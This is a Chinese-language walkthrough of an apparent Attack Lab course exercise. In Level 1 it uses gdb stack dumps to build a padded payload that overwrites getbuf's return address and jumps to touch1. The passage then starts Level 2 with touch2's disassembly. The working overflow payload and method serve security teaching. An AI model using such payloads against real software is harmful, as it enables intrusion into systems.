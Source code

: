 首先设置断点
```
break *0x4017b9
```

输入run -q 发现要求输入一个字符串

输入 

```
run -q < ctarget_l1-raw.txt 
```

表示将ctarget_l1-raw的第一行作为getbuf的输入

```
(gdb) print /x $rsp
$1 = 0x5561dc78

```

说明$rsp的地址为0x5561dc78 那么0x5561dc78 开始40个字节就是栈分配的空间 打印出0x5561dc78 开始48个字节

```
x/48xb 0x5561dc78 #显示0x5561dc78（address）处40个(n)1字节(u)的内容，以十六进制(x)表示；
```

输出
```
(gdb) x/48xb 0x5561dc78
0x5561dc78:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x5561dc80:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x5561dc88:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x5561dc90:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x5561dc98:	0x00	0x60	0x58	0x55	0x00	0x00	0x00	0x00
0x5561dca0:	0x76	0x19	0x40	0x00	0x00	0x00	0x00	0x00

```
可以看出0x5561dca0--0x5561dca7 就是返回test()中执行getbuf()后返回的位置

所以更爱ctarget_l1 前40个字符只要不为换行符即可 或八个字符代表0x4017c0 小端模式 低字节在低地址 同时在栈中高地址保存后输入的字节  因此输入顺序为c0 17 40 00 00 00 00 00
```
31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 c0 17 40 00 00 00 00 00
```

运行

```
./hex2raw < ctarget_l1.txt | ./ctarget -q
```

发现结果正确

### Level 2

touch2反汇编代码为

```
00000000004017ec <touch2>:
  4017ec:	48 83 ec 08          	sub    $0x8,%rsp
  4017f0:	89 fa                	mov    %edi,%edx
  4017f2:	c7 05 e0 2c 20 00 02 	movl   $0x2,0x202ce0(%rip)        # 6044dc <vlevel>
  4017f9:	00 00 00 
  4017fc:	3b 3d e2 2c 20 00    	cmp    0x202ce2(%rip),%edi        # 6044e4 <cookie>
  401802:	75 20                	jne    401824 <touch2+0x38>
  401804:	be e8 30 40 00       	mov    $0x4030e8,%esi
  401809:	bf 01 00 00 00       	mov    $0x1,%edi
  40180e:	b8 00 00 00 00       	mov    $0x0,%eax
  401813:	e8 d8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
  401818:	bf 02 00 00 00       	mov    $0x2,%edi
  40181d:	e8 6b 04 00 00       	callq  401c8d <validate>
```